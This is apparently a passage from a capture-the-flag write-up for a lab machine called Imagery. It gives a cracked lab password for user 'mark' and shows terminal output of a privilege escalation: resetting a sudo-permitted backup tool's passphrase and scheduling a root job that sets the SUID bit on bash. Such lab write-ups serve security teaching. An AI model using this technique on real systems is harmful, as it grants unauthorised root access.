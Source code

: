I got the password for mark.:supersmash

<img width="1340" height="498" alt="image" src="https://github.com/user-attachments/assets/3ac212d0-cfe4-424d-9509-58ba8f7ce177" />

---

Privilege escalation

reset the charcol configuration 
add the schedule --> auto add --schedule "* * * * *" --command "chmod 4755 /usr/bin/bash" --name "Set SUID Bash" --log-output "/home/mark/log.txt"
```bash
mark@Imagery:~$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
mark@Imagery:~$ sudo /usr/local/bin/charcol shell
Enter your Charcol master passphrase (used to decrypt stored app password): 

[2025-10-04 06:52:56] [ERROR] Incorrect master passphrase. 2 retries left. (Error Code: CPD-002)
Enter your Charcol master passphrase (used to decrypt stored app password): 

[2025-10-04 06:53:12] [ERROR] Incorrect master passphrase. 1 retries left. (Error Code: CPD-002)
Enter your Charcol master passphrase (used to decrypt stored app password): 

[2025-10-04 06:53:22] [ERROR] Incorrect master passphrase after multiple attempts. Exiting application. If you forgot your master passphrase, then reset password using charcol -R command for more info do charcol help. (Error Code: CPD-002)
Please submit the log file and the above error details to error@charcol.com if the issue persists.
mark@Imagery:~$ sudo /usr/local/bin/charcol -R   

Attempting to reset Charcol application password to default.
[2025-10-04 06:54:37] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-10-04 06:54:43] [INFO] System password verified successfully.
Removed existing config file: /root/.charcol/.charcol_config
Charcol application password has been reset to default (no password mode).
Please restart the application for changes to take effect.
mark@Imagery:~$ sudo /usr/local/bin/charcol shell

First time setup: Set your Charcol application password.
Enter '1' to set a new password, or press Enter to use 'no password' mode: 
Are you sure you want to use 'no password' mode? (yes/no): yes
[2025-10-04 06:57:08] [INFO] Default application password choice saved to /root/.charcol/.charcol_config
Using 'no password' mode. This choice has been remembered.
Please restart the application for changes to take effect.
mark@Imagery:~$ sudo /usr/local/bin/charcol shell

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                    
                                                                    
                                                                    
Charcol The Backup Suit - Development edition 1.0.0
```